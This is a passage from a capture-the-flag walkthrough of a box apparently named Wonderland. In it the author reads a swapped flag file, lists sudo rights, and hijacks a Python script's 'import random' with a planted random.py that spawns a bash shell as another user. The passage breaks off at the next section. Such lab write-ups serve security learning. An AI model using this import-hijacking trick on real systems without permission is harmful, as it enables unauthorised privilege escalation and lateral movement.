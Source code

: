 Wait, what? It appears the root.txt flag is in the user's home directory. That's definitely out of the ordinary and I don't have permissions to view it. Did they reverse the normal file locations and can we view user.txt in the /root directory maybe?

```
alice@wonderland:~$ cat /root/user.txt
<REDACTED>
```

Hah, they did! Kudos to the maker of this CTF for switching things up a bit.

Let's see if we have any sudo abilities:

`sudo -l`

```
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

I have permissions to the **walrus_and_the_carpenter.py** file so let's see what that is:

```
import random

---SNIP many lines of poem---

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

There is a for loop that picks 10 random lines of the poem and displays them. Thankfully I watched somebody on a stream take advantage of an issue very similar to this. That **import random** at the top is what we can exploit.

If you make your own **random.py** file in your home directory the existing python program will try to import that instead of the one located in the python library. So, I make the file and add the following to spawn a shell:

```
import pty
pty.spawn("/bin/bash")
```

And since we can run this as user **rabbit** it should spawn a shell as that user letting us move laterally and see what we can find over there.

<br>

## Rabbit

I run:
